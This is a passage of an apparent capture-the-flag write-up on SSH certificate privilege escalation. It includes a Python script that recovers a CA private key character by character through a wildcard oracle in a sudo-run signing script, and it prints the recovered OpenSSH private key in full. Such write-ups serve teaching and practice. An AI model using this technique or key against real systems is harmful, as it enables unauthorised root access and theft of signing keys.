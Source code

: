 > In `etc/ssh/auth_principals/root` we find the valid principal name for root is `root_user`.

```python
import subprocess

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=\n "

discovered_ca = "-----BEGIN OPENSSH PRIVATE KEY-----\n"

temp_ca_file = "temp_ca_guess"

while True:
    found_character = False

    for char in charset:
        # Create the temporary CA file with the current guess
        current_guess = discovered_ca + char + "*"
        with open(temp_ca_file, "w") as f:
            f.write(current_guess)
        
        result = subprocess.run(
            ["sudo", "/opt/sign_key.sh", temp_ca_file, "test.pub", "root", "root_user", "1"],
            stdout=subprocess.PIPE,
            text=True
        )
        
        if "Use API for signing with this CA" in result.stdout:
            # Correct character found, append to discovered_ca
            discovered_ca += char
            print(f"[+] Discovered so far: {discovered_ca}")
            found_character = True
            break  # Break inner loop to continue building the CA string
    
    if not found_character:
        if "-----END OPENSSH PRIVATE KEY-----" in discovered_ca:
            print(f"[!] Full CA content discovered:\n{discovered_ca}")
        else:
            print(f"[!] Script terminated prematurely. Partial CA content:\n{discovered_ca}")
        break
```

After running the script we recover the key and save it in a file (I named it `root.key` in my case).

> We need to add `-----END OPENSSH PRIVATE KEY-----` to the key manually.

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQAAAKg7BlysOwZc
rAAAAAtzc2gtZWQyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQ
AAAEBexnpzDJyYdz+91UG3dVfjT/scyWdzgaXlgx75RjYOo4Hg8Cudy1ShyYfqzC3ANlgA
cW7Q4MoZuezAE8mNFSmxAAAAIkdsb2JhbCBTU0cgU1NIIENlcnRmaWNpYXRlIGZyb20gSV
QBAgM=
-----END OPENSSH PRIVATE KEY-----
```
